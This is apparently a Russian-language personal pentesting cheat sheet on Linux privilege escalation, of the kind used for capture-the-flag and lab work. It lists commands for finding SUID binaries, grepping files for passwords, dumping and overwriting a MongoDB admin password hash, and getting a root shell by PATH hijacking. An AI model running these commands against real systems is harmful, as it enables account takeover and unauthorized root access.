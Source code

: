 ### \[lin/win]PEAS и аналоги
[[Утилиты]]
# Linux
1. попытаться использовать `sudo -l`,  далее повысить привелегии командами с ресурса https://gtfobins.github.io/
2. выяснить доступные команды с помощью 
	```
	find / -user root -perm /4000 2> /dev/null
	``` 
	```
	find / -type f -perm -u=s 2> /dev/null
	```
	```
	find / -perm -40 2> /dev/null
	```
	```
	find / -perm -u=s -type f 2>/dev/null
	```
	
3. Происматривать файлы в поисках пароля: 
	``` 
	cat * | grep -i passw*
	```

4. Проверить mongoDB на пароли, если что заменить их:
	```
	ps aux | grep mongo
	```
	Узнать в Google дефолтное название эксплуатируемой базы данные, например `UniFi Default Database` = ace.
	```
	mongo --port <port_from_ps> <ace или другая> --eval "db.admin.find().forEach(printjson);"
	```
	здесь производится замена пароля для user-а с конкретным id на собственный:
	```
	mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"pass_hash":"$6$mj3tX4VrR7o4c6UH$eCgQcdPg47i.JXsN4T3GJ92NZ6LLtY61VLaYe/1qd5k.Mg9EjpPAAzhhiqbIGUk5iE8/xwz6HR/Q2MrqbweE//"}})'
	```

Следующий способ: найти исполняемый файл или утилиту, который запускается от root но доступен уже сейчас и использует какую-то bush команду. 

Дальше нужно создать файл этой bush команды с содержимым:
``` 
/bin/sh
```
и добавить её в начало переменной PATH:
```
export PATH=/<dir>/<this_comand>:$PATH
```
Далее запустить тот первый исполняемый файл.

# Windows

См. раздел "сетевые атаки"

